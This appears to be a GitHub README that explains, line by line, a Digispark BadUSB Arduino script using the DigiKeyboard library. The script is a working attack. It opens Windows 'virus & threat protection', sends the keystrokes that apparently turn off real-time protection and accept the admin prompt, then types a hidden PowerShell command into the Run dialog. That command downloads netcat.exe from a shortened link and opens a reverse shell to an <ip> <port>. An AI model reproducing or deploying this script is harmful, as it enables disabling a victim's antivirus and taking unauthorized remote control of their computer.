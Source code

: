 <h2 color="#00979C"> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text
  Here is a breakdown of each line of code:</i></div></h2>
<h2 color="#00979C"> 1. Definition of Digispark</h2>

<code>#include "DigiKeyboard.h"</code>
<p>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</p>

<code>void setup(){</code>
<p>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<p>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>Another delay of 1000 milliseconds is introduced.</p>

<code>DigiKeyboard.print("virus & threat protection");</code>
<p>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</p>

<code>DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code>DigiKeyboard.delay(5000);</code>
<p>A delay of 5000 milliseconds (5 seconds) is introduced.</p>

<code>DigiKeyboard.sendKeyStroke(43);</code>
<p>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code>DigiKeyboard.delay(700);</code>
<p>A delay of 700 milliseconds (0.7 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>Another Enter key press is simulated.</p>

<code>DigiKeyboard.delay(700);</code>
<p>Another delay of 700 milliseconds is introduced.</p>

<code>  DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Space key.</p>

<code>DigiKeyboard.delay(2000);</code>
<p>A delay of 2000 milliseconds (2 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>A delay of 1000 milliseconds (1 second) is introduced.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
<p><The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows./p>
  
<code>  DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
<p>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</p>

<code>DigiKeyboard.delay(700);</code>
 <p>A delay of 700 milliseconds (0.7 seconds) is introduced.</p>

<code>DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
<p>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</p>
  
<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code>void loop(){}</code>
<p>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions</p>




